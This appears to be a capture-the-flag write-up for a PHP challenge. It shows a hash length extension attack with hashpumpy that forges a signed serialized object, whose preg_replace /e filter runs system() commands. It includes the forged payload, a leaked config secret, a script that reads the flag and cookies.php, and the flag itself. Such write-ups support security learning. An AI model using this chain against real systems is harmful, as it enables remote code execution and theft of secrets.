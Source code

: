 # Post object with complex filter (system ls /home/daedalus)
command = "system('ls /home/daedalus')"
add = "\n" + "O:4:\"Post\":3:{s:8:\"\00*\x00title\";s:5:\"title\";s:7:\"\00*\x00text\";s:1:\"a\";s:10:\"\00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\00*\x00pattern\";s:4:\"/a/e\";s:7:\"\00*\x00repl\";s:"+str(len(command))+":\""+command+"\";}}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

'7ece8c86d7c432f420f51c276cce9eebcf47d92b'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A27%3A%22system%28%27ls+%2Fhome%2Fdaedalus%27%29%22%3B%7D%7D%7D'


###
<?php
  define('STEVES_LIST_ABSOLUTE_INCLUDE_ROOT', dirname(__FILE__) . "/");
  define('STEVES_LIST_TEMPLATES_PATH', dirname(__FILE__) . "/templates/");
  define('DISPLAY_POSTS', 0);
  // Daedalus changed this... I guess AAAAAAAA was not a good secret :(
  define('AUTH_SECRET', "\xb9\xffCV\xa2v\xe9\xa1");
  require_once(STEVES_LIST_ABSOLUTE_INCLUDE_ROOT . "includes/classes.php");
?>
###

Made a little script that automates the sending of commands:

import send_command
s = send_command.send
print s("system('cat /home/daedalus/flag.txt')")
print s("system('cat /var/www/html/cookies.php')")



FLAG: D43d4lu5_w45_h3r3_w1th_s3rialization_chief_steve



Note: replaced ' by \' in add

#####

# References:
- hash length extension attack
- hashpump/hashpumpy
- [PHP preg_replace vulnerability](http://www.madirish.net/402)
- http://php.net/manual/en/reference.pcre.pattern.syntax.php